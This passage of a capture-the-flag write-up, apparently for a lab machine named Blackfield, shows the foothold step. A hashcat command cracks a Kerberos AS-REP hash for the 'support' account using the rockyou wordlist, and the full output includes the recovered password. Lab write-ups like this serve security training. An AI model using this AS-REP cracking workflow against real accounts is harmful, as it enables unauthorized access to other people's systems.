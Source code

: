 #### Foothold 
**User 1 - support:**

With the acquired krb ticket,the password can be cracked using hashcat

```
C:\Users\admin\Downloads\hashcat-5.1.0\hashcat-5.1.0>hashcat64.exe -m 18200 c:\Users\admin\Downloads\support_hash.txt c:\Users\admin\Downloads\rockyou.txt --force
hashcat (v5.1.0) starting...

OpenCL Platform #1: Intel(R) Corporation
========================================
* Device #1: Intel(R) HD Graphics 5500, 805/3220 MB allocatable, 24MCU
* Device #2: Intel(R) Core(TM) i7-5600U CPU @ 2.60GHz, skipped.

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Dictionary cache hit:
* Filename..: c:\Users\admin\Downloads\rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

$krb5asrep$23$support@BLACKFIELD.LOCAL:d9141b86bf7af57b77fea4f6dd5706e6$97624bbca77ad3024be9f732883c765e98cdfb1749494a7d854ec7d671b76b037395fff3ce88b9785ee72a7c599663795e61f1f29ec1b871d30f2f7d6f86295528bed0119c76a20f31cadab169d0fe4b67c931d6ecd2c77a1b5a4e827aecf74602581aa4ba2a856c367eab5848e888311a368a1e081348d50b1e970a09135159021f29b27b37940cdbbde885dc6d93ae7c961d1d4da1597ecc24f185e54abca6692365ec9388939c44e89c58979d4fc00e73b330e2cb5a37e8ed33fa8347ee7191563b6cf9d6938cbffb5d3791409d0fa94c12a03c8f64551d95093066fce750440472d9fc4fe71ededb21c9e4845015fab1b3e9:#00^BlackKnight

Session..........: hashcat
Status...........: Cracked
Hash.Type........: Kerberos 5 AS-REP etype 23
Hash.Target......: $krb5asrep$23$support@BLACKFIELD.LOCAL:d9141b86bf7a...b1b3e9
Time.Started.....: Sun Jun 07 20:20:38 2020 (1 min, 8 secs)
Time.Estimated...: Sun Jun 07 20:21:46 2020 (0 secs)
Guess.Base.......: File (c:\Users\admin\Downloads\rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   212.0 kH/s (7.45ms) @ Accel:8 Loops:1 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 14340096/14344384 (99.97%)
Rejected.........: 0/14340096 (0.00%)
Restore.Point....: 14327808/14344384 (99.88%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: $CaRaMeL -> !carolyn
```